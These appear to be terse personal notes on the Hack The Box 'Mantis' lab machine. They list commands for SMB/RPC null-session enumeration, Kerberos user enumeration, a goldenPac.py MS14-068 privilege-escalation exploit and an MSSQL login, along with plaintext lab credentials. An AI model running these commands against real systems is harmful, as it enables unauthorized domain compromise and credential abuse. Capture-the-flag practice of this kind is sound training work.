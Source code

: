 
link : https://0xdf.gitlab.io/2020/09/03/htb-mantis.html
1. Nmap

```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.52
```


2. PORT 445

```
smbmap -H 10.10.10.52
```

```
smbclient -N -L //10.10.10.52
```

```
rpcclient -U '' -N 10.10.10.52

query : querydispinfo,enumdomusers
```


```
GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
```

```
goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
```



3. PORT 88

```
kerbrute userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.52
```


4. PORT 1443

```
mssqlclient.py 'sa:m$$ql_S@_P@ssW0rd!@10.10.10.52'
```



